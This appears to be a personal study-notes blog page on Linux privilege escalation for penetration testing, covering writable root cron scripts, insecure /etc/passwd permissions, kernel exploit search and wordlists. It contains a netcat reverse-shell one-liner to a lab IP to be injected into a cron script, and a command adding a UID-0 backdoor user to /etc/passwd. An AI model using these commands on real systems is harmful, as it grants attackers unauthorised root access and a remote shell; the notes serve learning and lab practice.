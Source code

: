 ```yaml
---
title: Study Notes - 2021/05/09
date: 2021-05-09 17:34:43
tags: [Penetration Testing, Study Notes]
---
```


# Linux Privilege Escalation 
## Insecure file permissions  
## Cron based time job 

Inspect cron log for running jobs
```
grep "CRON" /var/log/cron.log  

Jan27 17:45:01 victim CRON[2615]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:50:01 victim CRON[2631]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 17:55:01 victim CRON[2656]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)
Jan27 18:00:01 victim CRON[2671]:(root) CMD (cd /var/scripts/ && ./user_backups.sh)

```

run every 5 mins

ls -lah to show its permission (rwxrwxrwx)

add following to the script (See [Reverse-shell-Cheat-Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f 
```

## Insecure /etc/passwd Permission
if a password hash is present in the second column of a /etc/passwd user record, it is considered valid for authentication and it takes **precedence** over the respective entry in /etc/shadow if available

### Generate password hash
```
openssl passwd evil
AK24fcSx2Il3I

echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

username:passwordhash:userid:groupid:
```

## Linux Kernel Vulnerabilities  

Lab machine: ssh n00b@10.11.0.129

inspecting the /etc/issue file  
```
uname -r 
-r, --kernel-release     print the kernel release
arch
```

```
searchsploit linux kernel ubuntu 16.04
```

## Compile C/C++ 
match the architecture of the target machine  


# Password Attacks  
## Standard wordlist  
Kali linux has some stored in `/usr/share/wordlists/`  
  
